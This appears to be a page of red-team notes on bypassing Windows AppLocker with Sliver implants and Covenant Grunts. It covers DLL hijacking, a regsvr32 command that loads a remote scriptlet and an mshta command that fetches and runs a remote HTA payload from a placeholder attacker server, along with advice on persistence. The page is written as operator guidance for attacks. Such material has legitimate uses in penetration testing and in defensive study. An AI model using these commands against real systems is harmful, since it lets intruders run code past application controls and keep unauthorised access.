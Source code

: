 ### General Steps to Use Sliver for AppLocker Bypass

1. **Deploy Sliver Implant**: Get your Sliver implant on the target system.
2. **Choose Bypass Technique**: Select the appropriate bypass technique based on the environment.
3. **Execute Payload**: Deploy your payload using the selected technique.
4. **Maintain Access**: Once AppLocker is bypassed, consider setting up persistence mechanisms to retain access.

### Considerations

- **Detection**: As with any bypass technique, these methods can still be detected by advanced EDR solutions or monitored logs.
- **Testing**: Test in a controlled environment to understand the behavior of AppLocker and how the chosen technique interacts with it.

Sliver provides flexible and powerful tools that, when used creatively, can effectively bypass AppLocker, allowing for payload execution and persistence in restricted environments.


## Bypass with Convenant Grunt

Bypassing AppLocker using a Covenant Grunt typically involves using known techniques to circumvent the restrictions imposed by AppLocker policies. AppLocker is a Windows feature that allows administrators to control which executables, scripts, and other files users can run. However, certain techniques can be used to bypass these restrictions.

### Bypassing AppLocker with Covenant Grunt

Here are a few techniques that could be used to bypass AppLocker when operating within the Covenant C2 framework:

#### 1. **DLL Hijacking**
   - **How It Works**: This technique involves placing a malicious DLL in a location where a trusted application loads DLLs. When the application runs, it loads the malicious DLL instead of the legitimate one.
   - **Execution**: If you can drop a DLL in a writable directory where a trusted application is likely to load it, the Covenant Grunt can exploit this to gain execution.
   - **Example**:
     - Drop a malicious DLL in a directory with weak permissions.
     - Execute a trusted binary (e.g., a signed Microsoft binary) that loads the malicious DLL.

#### 2. **Regsvr32 (COM Scriptlets)**
   - **How It Works**: `Regsvr32.exe` can be used to execute COM scriptlets (SCT files) remotely or locally. This tool is often allowed by AppLocker because it is a legitimate Windows binary.
   - **Execution**: Covenant Grunt can use `regsvr32` to execute a payload without writing to disk.
   - **Example**:
```powershell
regsvr32 /s /n /u /i:http://<your_server>/malicious.sct scrobj.dll
```

#### 3. **MSHTA (Microsoft HTML Application)**
   - **How It Works**: `mshta.exe` is a legitimate Windows binary that can execute HTML applications (HTA files). Since it's a trusted binary, it may not be restricted by AppLocker.
   - **Execution**: Use `mshta.exe` to download and execute an HTA file that contains your Covenant payload.
   - **Example**:
     ```powershell
mshta http://<your_server>/malicious.hta
     ```
